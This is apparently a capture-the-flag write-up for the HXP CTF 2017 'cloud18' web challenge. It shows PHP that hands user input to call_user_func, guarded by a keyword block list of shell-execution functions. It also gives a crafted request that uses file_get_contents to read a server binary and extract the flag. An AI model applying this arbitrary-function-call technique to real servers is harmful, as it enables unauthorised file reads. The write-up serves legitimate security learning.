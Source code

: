 ```yaml
---
layout: post
title: HXP CTF 2017 - cloud18
categories: ctf_hxp2017
keywords: "web"
comments: true
authors:
    - chq-matteo
---
```



We can:
- login
- register a new user
Once we are authenticated, we can use a text editor.

We take choose a function, write a regex, write some text and have the text that matches the regex replaced with the output of our functions. (line 35-37)
```php
    $editedText = preg_replace_callback("/" . $_POST["regex"] . "/", function ($matches) {
        return call_user_func($_POST["method"], $matches[0]);
    }, $_POST["text"]);
```

The client provides a couple of examples (line 43-48)
```html
        <select name="method">
            <option value="" disabled selected>select a method</option>
            <option value="strtoupper">to upper case</option>
            <option value="strtolower">to lower case</option>
            <option value="ucfirst">first letter to upper case</option>
        </select>
```

However the method is only checked by this snippet (line 7-9)
```php
if (preg_match("/exec|system|passthru|`|proc_open|popen/", strtolower($_POST["method"].$_POST["text"])) != 0) {
    exit("Do you really think you could pass something to the command line? Functions like this are often disabled! Maybe have a look at the source?");
}
```

In index.php we notice that we have to execute /usr/bin/get_flag to get the flag
```php
		echo "<div class='alert success'>" . shell_exec("/usr/bin/get_flag") . "</div>";
```

However we cannot use shell_exec.
But we can download the whole binary
We craft a request that includes the file in the webpage and then download it.
```
method:file_get_contents
regex:\/usr\/bin\/get_flag
text:/usr/bin/get_flag
```

Now we should get some information reversing the binary.

Luckily the old `strings get_flag | grep hxp` worked
`hxp{Th1s_w2sn't_so_h4rd_now_do_web_of_ages!!!Sorry_f0r_f1rst_sh1tty_upload}`
